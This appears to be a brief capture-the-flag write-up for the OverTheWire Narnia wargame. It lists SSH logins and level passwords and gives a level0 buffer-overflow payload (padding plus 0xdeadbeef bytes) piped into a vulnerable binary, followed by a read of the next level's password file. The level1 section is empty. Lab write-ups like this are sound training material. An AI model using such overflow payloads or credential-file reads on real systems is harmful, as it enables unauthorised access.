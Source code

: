 # Narnia  

## level0  
ssh narnia0@narnia.labs.overthewire.org -p 2226  
narnia0  
```
cd /narnia/
cat narnia0.c
(echo -e 'AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde' ; cat;) |  ./narnia0
cat /etc/narnia_pass/narnia1
```
## level1  
ssh narnia1@narnia.labs.overthewire.org -p 2226  
efeidiedae  
```

```
